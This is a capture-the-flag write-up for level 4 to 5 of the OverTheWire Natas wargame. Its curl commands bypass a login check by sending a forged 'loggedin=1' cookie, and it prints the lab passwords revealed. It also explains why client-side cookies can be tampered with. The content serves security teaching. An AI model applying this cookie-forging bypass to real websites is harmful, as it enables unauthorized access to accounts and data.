

# Natas Level 4 → Level 5

## 🧠 Goal

Find password to the next level
---

## 🔐 Credentials

- **Username:** `natas5`  
- **Host:** `http://natas5.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `0n35PkggAPm2zbEpOU802c0x0Msn1ToK` 

---

## 🖥️ Commands Used

```bash
└─$ curl -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK http://natas5.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "0n35PkggAPm2zbEpOU802c0x0Msn1ToK" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>

──(amro㉿amro)-[~]
└─$ curl -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK \
     -H "Cookie: loggedin=1" \
     http://natas5.natas.labs.overthewire.org

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "0n35PkggAPm2zbEpOU802c0x0Msn1ToK" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned</div>
</body>
</html>
```
or use browser


___

## 💡 Theory
HTTPprotocol is stateless, meaning no information about the session/previous requests is saved on the receivers/servers side. The client/browser saves session states and sends them with new requests. With HTTP the session information is stored in cookies, allowing the otherwise stateless protocol to store and transfer stateful information.

Cookies are sent with the HTTP headers. There are different types of cookies, for example, authentication cookies (for login) or tracking cookies. Since they are stored on the client side, the client can manipulate them depending on their content. It could be plain text, encoded, hashed or a special value only the server knows how to process. The different types are easier or harder to manipulate by the client.
___

## 📤 Output
```bash
0RoJwHdSKWFTYR5WuiAewauSuNaBXned
```
